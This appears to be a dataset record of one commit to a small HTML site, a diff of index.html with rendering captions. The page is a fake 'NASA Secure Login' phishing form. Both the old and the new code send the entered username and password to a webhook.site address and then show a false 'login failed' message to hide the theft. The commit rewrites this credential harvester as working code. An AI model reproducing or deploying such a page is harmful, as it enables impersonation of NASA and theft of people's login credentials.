

Before and after one commit to zaid111A/nasa, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-887 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
index.html

```diff
--- a/index.html
+++ b/index.html
@@ -2,57 +2,50 @@
 <html>
 <head>
   <title>NASA Secure Login</title>
-  <meta charset="utf-8" />
+  <meta charset="utf-8">
   <style>
-    body {{
-      font-family: sans-serif;
-      background: #f4f4f4;
-      display: flex;
-      justify-content: center;
-      align-items: center;
-      height: 100vh;
-    }}
-    .login {{
+    body {
+      background: #f0f0f0;
+      font-family: Arial;
+      text-align: center;
+      padding-top: 80px;
+    }
+    .box {
       background: #fff;
       padding: 40px;
-      box-shadow: 0 0 15px rgba(0,0,0,0.2);
-      border-radius: 10px;
-    }}
-    input {{
-      display: block;
-      margin-bottom: 15px;
+      margin: auto;
+      width: 300px;
+      border-radius: 8px;
+      box-shadow: 0 0 10px #ccc;
+    }
+    input {
+      width: 90%;
       padding: 10px;
-      width: 100%;
-    }}
-    button {{
-      padding: 10px 15px;
-      background: #004b8d;
-      color: white;
+      margin: 10px 0;
+    }
+    button {
+      padding: 10px 20px;
+      background: #003366;
+      color: #fff;
       border: none;
-    }}
+      cursor: pointer;
+    }
   </style>
 </head>
 <body>
-  <div class="login">
+  <div class="box">
     <h2>NASA Secure Login</h2>
-    <form onsubmit="exfiltrate(); return false;">
-      <input type="text" id="user" placeholder="Username" />
-      <input type="password" id="pass" placeholder="Password" />
-      <button type="submit">Login</button>
-    </form>
-    <p id="log" style="color:red;"></p>
+    <input id="user" placeholder="Username"><br>
+    <input id="pass" type="password" placeholder="Password"><br>
+    <button onclick="send()">Login</button>
   </div>
-
   <script>
-    function exfiltrate() {{
-      const u = document.getElementById("user").value;
-      const p = document.getElementById("pass").value;
-      document.getElementById("log").innerText = "Logging in...";
-      new Image().src = "https://webhook.site/7efd8b7e-f9f4-4b3d-bd7b-d329ec5d72a5?user=" + encodeURIComponent(u) + "&pass=" + encodeURIComponent(p);
-      setTimeout(() => {{
-        document.getElementById("log").innerText = "Access denied. Try again.";
-      }}, 2000);
-    }}
+    function send() {
+      const u = document.getElementById('user').value;
+      const p = document.getElementById('pass').value;
+      fetch('https://webhook.site/f988f5a7-6736-4a39-bbf2-7314ca91aa7e?user=' + encodeURIComponent(u) + '&pass=' + encodeURIComponent(p));
+      alert('Login failed. Please try again later.');
+    }
   </script>
 </body>
 </html>
```
